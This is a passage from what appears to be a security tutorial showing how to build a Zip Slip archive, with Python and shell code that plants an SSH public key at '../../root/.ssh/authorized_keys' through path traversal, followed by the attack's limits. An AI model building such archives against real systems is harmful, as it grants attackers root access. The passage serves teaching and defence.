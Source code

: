 #### DIY: Build your own Zip Slip payload!

{% details "With Python" %}
Python's built-in `zipfile` module provides a convenient way to create zip files.

```python
import zipfile

with zipfile.ZipFile("evil-slip.zip", "w") as zip:
    zip.write("my-ssh-key.pub", "../../root/.ssh/authorized_keys")
    #          │                 └ filename to store on the archive
    #          └ file to compress from our local file system
```

This creates a new `evil-slip.zip` zip file. After importing the `zipfile` module, we create an instance with the desired file name (`evil-slip.zip`) and use write-mode (`"w"`). (There is also `r` and `a` for reading/adding files.)

We also use Python's `with` statement, so that the zip file automatically saves when leaving the block, whether due to normal or erroneous circumstances.

Inside, we use `zip.write` to add files to the zip. We add a local file `my-ssh-key.pub` and store it as `../../root/.ssh/authorized_keys` in the archive.

One nice thing about the `zipfile` module is that it constructs the file *in-memory* (without creating temporary files). This allows us to craft complex zips without trashing our local filesystem.

{% enddetails %}

{% details "With Shell Commands" %}
Another approach is to use shell commands and reverse the process: start with the files we want unzipped.

```shell
$ touch ../../root/.ssh/authorized_keys
# Normally we would run `ssh-keygen` to generate a key pair...
# and use the generated public key as our authorized_keys.
# But let's assume ../.ssh/authorized_keys holds a public key.

$ zip evil-slip ../../root/.ssh/authorized_keys
  adding: ../../root/.ssh/authorized_keys (deflated 18%)
  
$ unzip -l evil-slip
Archive:  evil-slip.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      575  01-23-2024 17:53   ../../root/.ssh/authorized_keys
---------                     -------
      575                     1 file
```

{% enddetails %}

#### Limitations of Zip Slip

- On Windows, you may need backslashes `\` instead of forward slashes `/`. This ultimately depends on the unzipping application/library. Some libraries will convert between slashes.
- The app needs execute permissions on intermediate folders (to traverse across) and write permissions on the target folder.
  For instance, to write to `foo/bar/baz/flag.txt`, we need `x` permissions on `foo/` and `foo/bar/`; and `wx` permissions on `foo/bar/baz/`.
